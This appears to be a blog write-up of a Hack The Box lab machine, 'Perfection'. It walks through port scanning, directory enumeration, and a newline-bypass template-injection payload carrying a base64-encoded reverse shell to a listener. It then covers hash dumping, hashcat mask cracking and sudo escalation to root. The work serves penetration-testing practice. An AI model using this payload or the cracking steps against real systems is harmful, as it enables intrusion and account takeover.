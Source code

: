 ```yaml
---
layout: post
title: "Perfection"
description: "Perfection is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.129.73.125
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-03-02 14:07 EST
Nmap scan report for 10.129.73.125
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 7.99 seconds
```


## Enumerate HTTP (Port 80)
Landing page reveals WEBrick version 1.7.0 running.
![Pasted image 20240715111629.png](/images/Pasted image 20240715111629.png){: .normal }

A Gobuster scan reveals a couple of subdirectories.
```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u <http://10.129.73.125/> -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://10.129.73.125/>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 274]
/]                    (Status: 400) [Size: 274]
/about                (Status: 200) [Size: 3827]
/plain]               (Status: 400) [Size: 279]
/quote]               (Status: 400) [Size: 279]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

When browsing to `/plain]` we get more information about the ruby version and perfection being ran on port 3000.
![Pasted image 20240715111623.png](/images/Pasted image 20240715111623.png){: .normal width="500" }


The `;id` payload in the calculator function results in `malicious input blocked`.
![Pasted image 20240715111618.png](/images/Pasted image 20240715111618.png){: .normal }

Generate base64 reverse shell (make sure there are special characters).
![Pasted image 20240715111613.png](/images/Pasted image 20240715111613.png){: .normal }


Payload used in Burp: [regexp cheat sheet](https://github.com/attackercan/regexp-security-cheatsheet).
```bash
category1=a %0A;<%25%3d+system("echo+IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjEvMjIyMiAgMD4mMSAi|base64 -d|bash")+%25>+&grade1=10&weight1=20&category2=2&grade2=10&weight2=20&category3=3&grade3=10&weight3=20&category4=4&grade4=10&weight4=20&category5=5&grade5=10&weight5=20
```

Shell as susan.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 2222
listening on [any] 2222 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.93.233] 33324
bash: cannot set terminal process group (969): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

User flag: `4e621351d9e10339cef2ba3558875032`
```bash
susan@perfection:~$ cat user.txt
4e621351d9e10339cef2ba3558875032
```

## Privilege Escalation
We find possible credentials for a couple of users in the Migration directory located in susan’s home directory.
```bash
susan@perfection:~/Migration$ strings pupilpath_credentials.db
strings pupilpath_credentials.db
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Whilst enumerating for files owned by the susan group we find.
```bash
susan@perfection:/var/spool/mail$ find / -group susan 2>/dev/null
/var/mail/susan
```

In the mail file we find the password template.
```bash
susan@perfection:~$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

We can crack the hash we previously find using a hashcat mask attack: [Link](https://hashcat.net/wiki/doku.php?id=mask_attack). Since the password format is susan_nasus_{1-1,000,000,000} we will specify the following hashcat mask.
```bash
# hash file
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f

# hashcat command
hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

# Result
┌──(kali㉿kali)-[~]
└─$ hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

Let’s use the password for sudo -l.
```bash
susan@perfection:~$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~$ 
```

Switch to the root user.
```bash
susan@perfection:~$ sudo su
root@perfection:/home/susan# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `4826b44387fb5ede89b7027431ebb867`
```bash
root@perfection:~# cat root.txt 
4826b44387fb5ede89b7027431ebb867
```

## PWNED!!!
![Pasted image 20240715111552.png](/images/Pasted image 20240715111552.png){: .normal }